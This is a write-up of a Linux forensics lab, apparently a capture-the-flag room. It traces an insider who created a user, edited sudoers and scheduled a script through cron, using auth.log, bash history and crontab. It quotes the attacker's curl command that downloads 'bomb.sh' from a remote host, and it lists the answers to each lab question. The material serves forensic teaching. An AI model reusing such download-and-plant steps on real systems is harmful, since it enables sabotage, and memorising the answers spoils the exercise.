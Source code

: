 # 🛠️ Disgruntled: Linux Forensics Investigation  

I investigated a suspicious incident involving a compromised Linux system. Below are the findings and the investigative process, with placeholders for screenshots to support each step.  

---

## 🖥️ Lab Setup  

- **Client Name:** CyberT  
- **Primary User Account:** cybert
- **Scenario:** Hey, kid! Good, you’re here! Not sure if you’ve seen the news, but an employee from the IT department of one of our clients (CyberT) got arrested by the police. The guy was running a successful phishing operation as a side gig. CyberT wants us to check if this person has done anything malicious to any of their assets. Get set up, grab a cup of coffee, and meet me in the conference room. 

---

## 🔍 Investigation Questions and Answers  

### 1. What is the full command used to install a package on the machine using elevated privileges?  
**Answer:** `/usr/bin/apt install dokuwiki`  
- **Steps Taken:**  
  - Queried the authorization logs with the command:  
    ```bash
    cat /var/log/auth.log* | grep -i COMMAND | grep -i install
    ```  
  - Reviewed entries for elevated privileges usage and identified the package installation command.  

![Screenshot for Question 1](https://i.imgur.com/zfhSYt1.png)

---

### 2. What was the present working directory (PWD) when the previous command was run?  
**Answer:** `/home/cybert`  
- **Steps Taken:**  
  - Checked the `PWD` value in the same log entry as the installation command.  

![Screenshot for Question 2](https://i.imgur.com/1aLJM5t.png)

---

### 3. Which user was created after the package was installed?  
**Answer:** `it-admin`  
- **Steps Taken:**  
  - Searched the logs for user creation commands:  
    ```bash
    cat /var/log/auth.log* | grep -i COMMAND | grep -i adduser
    ```  
  - Identified the newly created user account.  

![Screenshot for Question 3](https://i.imgur.com/VuBRXyc.png)

---

### 4. When was the sudoers file updated?  
**Answer:** `Dec 28 06:27`  
- **Steps Taken:**  
  - Queried the logs for `visudo` commands with the following:  
    ```bash
    cat /var/log/auth.log* | grep -i visudo
    ```  
  - Correlated timestamps with other malicious actions. This will let you see the changes done to the sudoers file. 

![Screenshot for Question 4](https://i.imgur.com/zmBc7W5.png)

---

### 5. What is the name of the script file that was opened using the "vi" text editor?  
**Answer:** `bomb.sh`  
- **Steps Taken:**  
  - Investigated logs for instances of the `vi` command:  
    ```bash
    cat /var/log/auth.log* | grep -i vi
    ```  
  - Found a suspicious file edited with `vi`.  

![Screenshot for Question 5](https://i.imgur.com/1m7C4zL.png)

---

### 6. What is the command used to create the file `bomb.sh`?  
**Answer:** `curl 10.10.158.38:8080/bomb.sh --output bomb.sh`  
- **Steps Taken:**  
  - Reviewed the `.bash_history` of the created user:  
    ```bash
    cat /home/it-admin/.bash_history
    ```  
  - Located the command used to download the malicious script.  

![Screenshot for Question 6](https://i.imgur.com/UDm0DHw.png)

---

### 7. What is the full path of the file after it was renamed and moved to a different directory?  
**Answer:** `/bin/os-update.sh`  
- **Steps Taken:**  
  - Checked the `.viminfo` file for renaming operations:  
    ```bash
    cat /home/it-admin/.viminfo | grep saveas
    ```  
  - Found the new path and name of the script.  

![Screenshot for Question 7](https://i.imgur.com/AJI3R0j.png)

---

### 8. When was the file `/bin/os-update.sh` last modified?  
**Answer:** `Dec 28 06:29`  
- **Steps Taken:**  
  - Queried the directory metadata for file modification timestamps:  
    ```bash
    ls -al /bin | grep os-update
    ```  

![Screenshot for Question 8](https://i.imgur.com/SkmKoPy.png)

---

### 9. What is the name of the file that will get created when `/bin/os-update.sh` executes?  
**Answer:** `goodbye.txt`  
- **Steps Taken:**  
  - Reviewed the contents of the script using:  
    ```bash
    cat /bin/os-update.sh
    ```  
  - Found that the script outputs `goodbye.txt`.  

![Screenshot for Question 9](https://i.imgur.com/vqIrJkM.png)

---

### 10. At what time will the malicious file trigger?  
**Answer:** `08:00 AM`  
- **Steps Taken:**  
  - Checked the system’s cron jobs with the following command:  
    ```bash
    cat /etc/crontab
    ```  
  - Noted the scheduled execution time for the malicious script.  

![Screenshot for Question 10](https://i.imgur.com/JYrY229.png)

---

## 🛠️ Tools Used  

- **Linux Command Line:** For log parsing and forensic analysis.  
- **Key Commands:** `grep`, `cat`, `ls`, `.bash_history`, `.viminfo`.  

---

## 🧠 Key Takeaways  

- Authentication logs are critical for tracking privileged actions.  
- Understanding file operations and cron jobs is vital in identifying malicious activity.  
- Linux forensic investigations require a mix of log analysis and command history inspection.


